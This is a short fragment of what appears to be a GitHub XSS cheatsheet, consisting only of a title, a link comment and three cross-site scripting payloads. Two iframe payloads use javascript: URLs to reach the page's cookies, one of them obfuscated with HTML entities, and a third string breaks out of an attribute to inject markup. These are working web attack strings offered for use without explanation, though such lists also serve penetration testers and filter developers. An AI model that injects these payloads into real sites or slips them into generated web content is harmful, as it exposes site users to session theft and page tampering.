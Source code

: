 # XSS Cheatsheet


<!--        GitHub : https://github.com/ismailtasdelen/ -->





<IFRAME SRC="javascript:alert('Window.document.cookie');"></IFRAME>
"><h3><SRC="javascript:alert('xss');">girl</h3>
<iframe src=javascript&colon;alert&lpar;window&period;document&period;cookie&rpar;>




